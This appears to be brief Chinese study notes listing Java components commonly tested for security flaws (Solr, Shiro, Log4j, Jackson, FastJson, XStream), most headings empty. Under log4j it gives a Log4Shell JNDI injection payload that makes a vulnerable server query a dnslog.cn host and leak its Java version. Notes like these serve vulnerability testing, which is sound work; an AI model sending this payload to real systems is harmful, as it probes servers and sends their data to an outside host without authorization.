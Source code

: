 # 安全组件
![](vx_images/153227671548774.png)
# solr
搜索组件
# shiro
身份验证
# log4j
漏洞验证:
​DNSLog 检测：发送包含 JNDI 查询的 payload，观察 DNS 回显：
```
${jndi:ldap://${sys:java.version}.dnslog.cn}
```
# Jackson
# FastJson
# SXtream